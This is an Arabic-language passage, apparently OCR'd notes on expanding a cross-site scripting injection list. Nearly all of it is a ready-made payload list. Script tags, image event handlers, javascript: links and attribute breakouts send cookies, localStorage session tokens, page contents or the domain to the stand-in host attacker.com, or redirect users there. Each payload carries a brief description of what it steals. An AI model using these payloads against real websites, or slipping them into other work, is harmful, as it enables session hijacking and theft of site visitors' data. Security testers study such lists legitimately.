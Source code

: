 #### د. توسيع قائمة الحقن
- **المحاولات**:
  - أضف حقنًا إضافية (مثل `<iframe src="javascript:alert('XSS')">` أو `<div onclick="fetch('http://attacker.com/log?c='+document.cookie)">`).
  - جرب أحداث أخرى (مثل `onfocus`، `onblur`) أو وسوم أخرى (مثل `<input>`، `<object>`).
  - اختبر سياقات JavaScript معقدة (مثل `eval(...)` أو `setTimeout(...)`).
- **كيف يعمل**:
  - يتم إنشاء قائمة موسعة تشمل كل المتغيرات الممكنة.
  - مثال: إضافة `<input type=text onfocus="fetch('http://attacker.com/log?c='+document.cookie)">` إلى القائمة.
- **متى يُستخدم؟**:
  - عند الحاجة لتغطية شاملة للسياقات.

---



1. حقن باستخدام وسوم HTML:
- <script>alert('XSS')</script>: ينفذ تنبيهًا عند العرض.
- <script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>: يرسل ملفات تعريف الارتباط.
- <script>document.location='http://attacker.com'</script>: يعيد توجيه المستخدم.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>: يرسل محتوى الصفحة.
- <script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>: يرسل رمز الجلسة.

2. حقن باستخدام وسوم صور أو أحداث:
- <img src=x onload="alert('XSS')">: ينفذ تنبيهًا عند تحميل الصورة.
- <img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">: يرسل ملفات تعريف الارتباط.
- <img src=x onerror="fetch('http://attacker.com/log?d='+document.domain)">: يرسل النطاق.
- <img src=x onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')">: يرسل رمز الجلسة عند تمرير المؤشر.
- <img src=x onload="fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})">: يرسل محتوى الصفحة.

3. حقن باستخدام روابط JavaScript:
- <a href="javascript:alert('XSS')">Click</a>: ينفذ تنبيهًا عند النقر.
- <a href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>: يرسل ملفات تعريف الارتباط عند النقر.
- <a href="javascript:document.location='http://attacker.com'">Click</a>: يعيد توجيه المستخدم.
- <a href="javascript:new Image().src='http://attacker.com/log?d='+document.domain">Click</a>: يرسل النطاق.
- <a href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})">Click</a>: يرسل رمز الجلسة.

4. حقن داخل سمات أو JavaScript:
- " onfocus="alert('XSS'): ينفذ تنبيهًا في سمة.
- " onload="fetch('http://attacker.com/log?c='+document.cookie): يرسل ملفات تعريف الارتباط في سمة.
- ";alert('XSS');//: ينفذ تنبيهًا في سياق JavaScript.
- ";fetch('http://attacker.com/log?c='+document.cookie);//: يرسل ملفات تعريف الارتباط في JavaScript.
- " onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token'): يرسل رمز الجلسة في سمة.

